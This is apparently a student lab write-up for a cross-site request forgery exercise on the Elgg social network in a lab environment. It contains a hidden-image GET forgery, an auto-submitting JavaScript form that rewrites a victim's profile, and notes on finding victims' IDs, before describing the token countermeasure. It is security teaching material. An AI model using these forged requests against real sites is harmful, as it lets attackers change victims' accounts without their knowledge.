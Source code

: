 # CS 4173 Lab 4
#### Cross-Site Request Forgery Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Observing HTTP Request

In this task, we use the [HTTP Header Live](https://addons.mozilla.org/en-US/firefox/addon/http-header-live/) addon for Firefox in order to observe the structure of the HTTP requests and responses of the `Elgg` social network. Below is a GET request:

```
http://www.csrflabelgg.com/profile/alice
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/activity
Cookie: Elgg=q1402do2898g8cc1u0kj2frkp0
Connection: keep-alive
Upgrade-Insecure-Requests: 1

GET: HTTP/1.1 200 OK
Date: Fri, 09 Nov 2018 00:17:06 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 3408
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

This is a simple GET request of viewing Alice's profile page. The main parameters used are the identifying cookie as the browser is simply requesting information. Looking at a POST request:

```
http://www.csrflabelgg.com/action/profile/edit
POST HTTP/1.1 302 Found
Host:www.csrflabelgg.com
User-Agent:Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language:en-US,en;q=0.5
Accept-Encoding:gzip, deflate
Referer:http://www.csrflabelgg.com/profile/boby/edit
Content-Type:application/x-www-form-urlencoded
Content-Length:501
Cookie:Elgg=lh9gb6ba2qp7cdkhaqqibbofj5
Connection:keep-alive
Upgrade-Insecure-Requests:1

__elgg_token=RhUAi0XTAlxiX7zLFRQMDA&__elgg_ts=1542101139&name=Boby&description=<p>I am bobys</p>
&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=43

Date:Tue, 13 Nov 2018 09:25:46 GMT
Server:Apache/2.4.18 (Ubuntu)
Expires:Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control:no-store, no-cache, must-revalidate
Pragma:no-cache
Location:http://www.csrflabelgg.com/profile/boby
Content-Length:0
Keep-Alive:timeout=5, max=100
Connection:Keep-Alive
Content-Type:text/html;charset=utf-8
```

This time we see a little more information. Along with the cookie, we also see the body of the POST request which contains the form data, in this case the data to update Boby's profile with. We see two special tokens for security as well the contents of each field in the form and the access display level of each field, and finally the `guid` of the user to be updated. 

## Task 2: CSRF Attack Using GET Request

In this task we will demonstrate a GET request attack to show how a GET request attack can be launched if the victim is directed to a malicious site. We can create a webpage in the directory for the csrflabattacker.com domain which has a hidden image with the `src` set to the URL we wish to attack and the GET request will be triggered automatically. The image tag used is the following: 

```html
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42" alt="" style="position:absolute; left:-999999999999999999999999999999999999999px" width="1" height="1">
```

## Task 3: CSRF Attack Using POST Request

In this task we will demonstrate how a POST request can also be used to perform attacks against servers which are not protected against it. Using the same directory, we can modify the page to contain a script that will run and auto invoke itself upon loading the page. The script will create a form with a field to set the `description` field and the `accesslevel` for that field along with the `guid` of the target. The elgg token security has been disabled so the attack does not require those. When Alice reaches this page, her logged in session cookie is still in the browser and will allow the request to be sent and modifying her profile. 

![Screenshot of successful post attack](post-attack.png "Alice's profile after redirecting back from the attacker's site")

The script on the page consists of the following:

```js
function forge_post() {
    var fields;
    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value ='2'> ";
    fields += "<input type='hidden' name='description' value='<p>Boby is my Hero</p>'>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";

    fields += "<input type='hidden' name='guid' value='42'>";
    // Create a <form> element.
    var p = document.createElement("form");
    // Construct the form
    p.action = "http://www.csrflabelgg.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    // Append the form to the current page.
    document.body.appendChild(p);
    // Submit the form
    p.submit();
}
// Invoke forge_post() after the page is loaded.
window.onload = function () { forge_post(); }
```

### Question 1

Boby cannot retrieve Alice's `guid` by logging into her account, but fortunately he does not need to. By visiting Alice's page as a visitor, he can inspect the "Add friend" button which contains her `guid` in the GET request URL.

### Question 2

It is possible to retrieve the `guid` of anyone who visits the page, assuming they are logged in. One only needs to know their profile username in order to view their page and retrieve the `guid` from the "Add friend" button. This can be achieved by sending a malicious GET request to `http://www.csrflabelgg/profile` which will redirect to the logged in user's page which can be found in the response headers. The attacker can then pull that URL and retrieve the `guid`.

## Task 4: Implementing a countermeasure for `Elgg`

In this task, we re-enable the disabled CSRF countermeasures and retry the attacks. They now no longer work because the server now expects two extra values, the `__elgg_ts` and `__elgg_token` values in both the GET and POST for these tasks. There is no way for the attacker to know these values before hand since they are generated each time the page is loaded, and is different every time the page is visited. As long as the algorithm used to generate these values are secure enough, the attacker will not be able to predict these values and launch a CSRF attack.